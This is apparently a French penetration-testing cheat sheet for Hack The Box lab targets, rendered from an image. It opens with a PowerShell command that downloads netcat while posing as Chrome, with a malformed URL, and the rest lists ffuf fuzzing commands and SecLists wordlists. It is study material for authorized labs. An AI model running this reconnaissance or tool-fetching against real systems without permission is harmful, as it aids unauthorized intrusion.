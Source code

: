```shell
### Invoke-WebRequest avec un User Agent Chrome
```bash
`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`
```shell
## Fuzzing avec Ffuf

### Aide de ffuf
```bash
`ffuf -h`
```shell
### Fuzzing de répertoires
```bash
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`
```shell
### Fuzzing d'extensions
```bash
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`
```shell
### Fuzzing de pages
```bash
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php`
```shell
### Fuzzing récursif
```bash
`ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`
```shell
### Fuzzing de sous-domaines
```bash
`ffuf -w wordlist.txt:FUZZ -u https://FUZZ.hackthebox.eu/`
```shell
### Fuzzing d'hôtes virtuels
```bash
`ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.academy.htb' -fs xxx`
```shell
### Fuzzing de paramètres - GET
```bash
`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx`
```shell
### Fuzzing de paramètres - POST
```bash
`ffuf -w wordlist.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`
```shell
### Fuzzing de valeurs
```bash
`ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`
```shell
### Wordlists

### Directory/Page Wordlist
```bash
`/opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt`
```shell
### Extensions Wordlist
```bash
`/opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt`
```shell
### Domain Wordlist
```bash
`/opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`
```shell
### Parameters Wordlist
```bash
`/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt`
```shell
### Divers

```